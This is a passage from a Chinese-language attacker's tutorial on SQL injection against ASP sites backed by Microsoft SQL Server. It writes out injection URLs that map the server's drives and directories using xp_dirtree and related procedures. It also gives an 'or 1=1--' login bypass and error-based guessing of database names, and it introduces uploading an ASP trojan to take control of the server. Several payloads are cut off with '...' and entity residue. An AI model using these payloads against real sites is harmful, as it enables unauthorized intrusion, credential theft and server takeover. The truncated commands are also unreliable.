 二是遍历系统的目录结构，分析结果并发现WEB虚拟目录；
- 先创建一个临时表：temp
　　HTTP://xxx.xxx.xxx/abc.asp?p=YY;create&n ... mp(id nvarchar(255),num1 nvarchar(255),num2 nvarchar(255),num3 nvarchar(255));--
- 接下来：
    1.  利用xp_availablemedia来获得当前所有驱动器,并存入temp表中：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;insert temp ... ter.dbo.xp_availablemedia;--
我们可以通过查询temp的内容来获得驱动器列表及相关信息
　　
    2. 利用xp_subdirs获得子目录列表,并存入temp表中：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;insert into temp(i ... dbo.xp_subdirs 'c:\';--
    3. 利用xp_dirtree获得所有子目录的目录树结构,并寸入temp表中：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;insert into temp(id,num1) exec master.dbo.xp_dirtree 'c:\';--

注意：
- 以上每完成一项浏览后，应删除TEMP中的所有内容，删除方法是：
HTTP://xxx.xxx.xxx/abc.asp?p=YY;delete from temp;--
- 浏览TEMP表的方法是：(假设TestDB是当前连接的数据库名)
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top& ... nbsp;TestDB.dbo.temp )>0 得到表TEMP中第一条记录id字段的值，并与整数进行比较，显然abc.asp工作异常，但在异常中却可以发现id字段的值。假设发现的表名是xyz，则HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select top 1 id from ... ere id not in('xyz'))>0 得到表TEMP中第二条记录id字段的值。

### 五、上传ASP木马
　　所谓ASP木马，就是一段有特殊功能的ASP代码，并放入WEB虚拟目录的Scripts下，远程客户通过IE就可执行它，进而得到系统的USER权限，实现对系统的初步控制。上传ASP木马一般有两种比较有效的方法：
#### 1. 利用WEB的远程管理功能

许多WEB站点，为了维护的方便，都提供了远程管理的功能；也有不少WEB站点，其内容是对于不同的用户有不同的访问权限。为了达到对用户权限的控制，都有一个网页，要求用户名与密码，只有输入了正确的值，才能进行下一步的操作,可以实现对WEB的管理，如上传、下载文件，目录浏览、修改配置等。

因此，若获取正确的用户名与密码，不仅可以上传ASP木马，有时甚至能够直接得到USER权限而浏览系统，上一步的“发现WEB虚拟目录”的复杂操作都可省略。用户名及密码一般存放在一张表中，发现这张表并读取其中内容便解决了问题。以下给出两种有效方法。

　　
- A、 注入法：

    从理论上说，认证网页中会有型如：
　
```
select * from admin where username='XXX' and password='YYY'
```
 的语句，若在正式运行此句之前，没有进行必要的字符过滤，则很容易实施SQL注入。
　　如在用户名文本框内输入：abc’ or 1=1-- 在密码框内输入：123 则SQL语句变成：
　　
```
select * from admin where username='abc’ or 1=1 and password='123’
```
 不管用户输入任何用户名与密码，此语句永远都能正确执行，用户轻易骗过系统，获取合法身份。

- B、猜解法：
 
    基本思路是：猜解所有数据库名称，猜出库中的每张表名，分析可能是存放用户名与密码的表名，猜出表中的每个字段名，猜出表中的每条记录内容。
　　猜解所有数据库名称
　　
```
HTTP://xxx.xxx.xxx/abc.asp?p=YY and (select count(*) from master.dbo.sysdatabases where name>1 and dbid=6) <>0
```
因为 dbid 的值从1到5，是系统用了。所以用户自己建的一定是从6开始的。并且我们提交了 name>1 (name字段是一个字符型的字段和数字比较会出错),abc.asp工作异常，可得到第一个数据库名，同理把DBID分别改成7,8，9,10,11,12…就可得到所有数据库名。
